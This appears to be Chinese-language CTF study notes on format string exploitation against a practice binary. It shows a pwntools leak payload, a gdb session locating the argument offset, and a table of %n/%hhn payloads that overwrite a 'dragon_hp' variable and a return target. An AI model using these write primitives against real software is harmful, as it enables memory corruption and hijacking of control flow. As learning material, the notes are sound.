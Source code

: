 1. 可以一次泄露多个目标值
sla('Now answer me, will you v me 50\n','aaaaaaa,%11$p,%17$p')

2. 计算偏移值

```sh
format_level1 为例，
b*0x0x8049684 \n r, 输入3
► 0x8049684 <talk+81>     call   read@plt

gdb$ ni
输入 aaaabaaacaaadaaa

   0x8049684 <talk+81>     call   read@plt
► 0x8049689 <talk+86>     add    esp, 0x10

gdb$ stack
00:0000│   esp 0xffffd320 —▸ 0xffffd33c ◂— 'aaaabaaacaaadaaa' ; 参数1: 格式化字符
01:0004│ 1     0xffffd324 —▸ 0xffffd33c ◂— 'aaaabaaacaaadaaa' ; 参数2: 地址, 从这里数
02:0008│ 2     0xffffd328 ◂— 0x10
03:000c│ 3     0xffffd32c —▸ 0x8049643 (talk+16) ◂— add ebx, 0x2975
04:0010│ 4     0xffffd330 —▸ 0xf7fa4620 (_IO_2_1_stdin_) ◂— 0xfbad208b
05:0014│ 5     0xffffd334 —▸ 0x804a231 ◂— 0x47006425 /* '%d' */
06:0018│ 6     0xffffd338 —▸ 0xffffd354 —▸ 0x804bfb8 (_GLOBAL_OFFSET_TABLE_) —▸ 0x804bec0 (_DYNAMIC) ◂— 0x1
07:001c│ 7 eax 0xffffd33c ◂— 'aaaabaaacaaadaaa'               ; 为第7个
08:0020│     0xffffd340 ◂— 'baaacaaadaaa'
gdb$ fmtarg 0xffffd33c  -> 7 ("\%6$p") 也是7
```

测试值

| payload                                          | value                   | Desc                                                      |
| ------------------------------------------------ | ----------------------- | --------------------------------------------------------- |
| `b'%8$p'`                                        | 8偏移地址               |                                                           |
| `b'%8$n' + p32(dragon_hp)`                       | -1                      |                                                           |
| `b'c%9$naaa' + p32(dragon_hp)`                   | 0                       | 这时栈中 第 7 个: `c%9$` 第 8 个 `naaa` 第 9 个 dragon_hp |
| `b'%128c%10$nbb' + p32(dragon_hp+3)`             | dragon_hp+3 设置为 0x80 | `bb`是填充 4 字节对齐, 用`aa`或者其他都行                 |
| `p32(dragon_hp) + b'%7\$n'`                      | 0x3                     | 正常可能是 4,前面 4 个字节                                |
| `p32(dragon_hp) + b'%15c%7\$n'`                  | 0x12 = 15+3             |                                                           |
| `b"%23p%10$hhn".ljust(12, b'a') + p32(func_ret)` |                         | func_ret 修改为 23 -> 0x17 , 用 c 和用 p 效果一样         |
